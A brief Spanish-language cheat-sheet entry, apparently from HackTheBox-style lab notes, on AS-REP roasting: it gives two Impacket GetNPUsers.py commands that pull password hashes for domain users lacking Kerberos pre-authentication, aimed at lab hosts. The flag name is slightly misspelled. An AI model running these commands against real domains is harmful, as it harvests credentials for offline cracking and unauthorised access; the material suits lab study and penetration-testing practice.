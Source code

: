 Ataque para obtener hashes de usuarios del dominio. Para ello tienen que tener habilitado el parámetro "UI_DONT_REQUIRE_PREAUTH"
`GetNPUsers.py -usersfile users.txt active.htb/ -dc-ip 10.10.10.100`
`GetNPUsers.py blacfield.local/ -no-pass -userfile valid-users.txt`

